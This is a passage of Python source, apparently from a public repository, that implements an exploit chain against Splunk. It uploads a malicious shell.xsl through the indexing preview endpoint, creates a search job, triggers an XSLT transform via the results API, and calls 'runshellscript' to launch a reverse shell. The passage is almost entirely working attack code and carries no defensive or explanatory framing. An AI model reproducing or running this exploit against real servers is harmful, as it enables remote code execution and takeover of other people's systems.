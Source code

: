 ```python
        "X-Splunk-Form-Key": csrf_token,
    }

    upload_url = f"{url}/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl"
    response = session.post(upload_url, files=files, headers=upload_headers, verify=False, proxies=proxies)

    try:
        text_value = json.loads(response.text)['messages'][0]['text']
        if "concatenate" in text_value:
            return False, None
        return True, text_value
    except (json.JSONDecodeError, KeyError, IndexError):
        return False, None

def get_job_search_id(session, url, username, csrf_token):
    jsid_data = {'search': f'|search test|head 1'}
    jsid_url = f"{url}/en-US/splunkd/__raw/servicesNS/{username}/search/search/jobs?output_mode=json"
    upload_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
        "X-Requested-With": "XMLHttpRequest",
        "X-Splunk-Form-Key": csrf_token,
    }
    response = session.post(jsid_url, data=jsid_data, headers=upload_headers, verify=False, proxies=proxies)
    try:
        jsid = json.loads(response.text)['sid']
        return True, jsid
    except (json.JSONDecodeError, KeyError, IndexError):
        return False, None

def trigger_xslt_transform(session, url, jsid, text_value):
    xslt_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
        "X-Splunk-Module": "Splunk.Module.DispatchingModule",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "X-Requested-With": "XMLHttpRequest",
    }
    exploit_endpoint = f"{url}/en-US/api/search/jobs/{jsid}/results?xsl=/opt/splunk/var/run/splunk/dispatch/{text_value}/shell.xsl"
    response = session.get(exploit_endpoint, verify=False, headers=xslt_headers, proxies=proxies)
    return response.status_code == 200

def trigger_reverse_shell(session, url, username, jsid, csrf_token):
    runshellscript_data = {'search': f'|runshellscript "shell.sh" "" "" "" "" "" "" "" "{jsid}" ""'}
    runshellscript_url = f"{url}/en-US/splunkd/__raw/servicesNS/{username}/search/search/jobs"
    upload_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
        "X-Requested-With": "XMLHttpRequest",
        "X-Splunk-Form-Key": csrf_token,
    }
    response = session.post(runshellscript_url, data=runshellscript_data, headers=upload_headers, verify=False, proxies=proxies)
    return response.status_code == 201
```